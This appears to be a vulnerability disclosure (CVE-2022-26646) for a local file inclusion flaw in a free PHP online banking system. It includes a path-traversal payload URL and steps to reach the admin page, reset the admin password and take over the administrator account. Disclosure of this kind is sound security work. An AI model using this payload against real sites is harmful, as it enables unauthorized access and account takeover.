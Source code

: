 # Tittle: Online Banking System LFI.

## Author: (Erik451)
## Vendor Homepage: [https://www.sourcecodester.com/](https://www.sourcecodester.com/)
## Software Link: [https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html](https://www.sourcecodester.com/php/14868/banking-system-using-php-free-source-code.html)
## Version: OBS 1.0
## CVE: CVE-2022-26646
-   Description: The parameter "page" includes files. A user can read internal php files of the web. LFI to Privilege Escalation
-   Payload used: `http://web.com/banking/client/?page=<any_phpfile>`

### **Steps to reproduce:**

-  1- Go to [http://localhost/banking/client/?page=../admin/user](http://localhost/banking/client/?page=../admin/user)

![adminpage](https://user-images.githubusercontent.com/47476901/160647789-a20d2830-b673-4d51-b605-80de520cf25f.png)

-   2- Change the admin password

![changepass](https://user-images.githubusercontent.com/47476901/160647853-084108de-0592-4c79-8d3a-f7a1d3692466.png)

- 3- Login as administrator

![login](https://user-images.githubusercontent.com/47476901/160647880-c00a310c-ca03-4fef-839f-0131122ee50d.png)


- 4- Admin panel
![adminpanel](https://user-images.githubusercontent.com/47476901/160647820-d55df39c-9287-4bd5-8214-e10558e8aa09.png)


#### Other Payload:
Reading info.php
![info](https://user-images.githubusercontent.com/47476901/160647867-b7593351-938a-492c-a447-17547aec59f7.png)

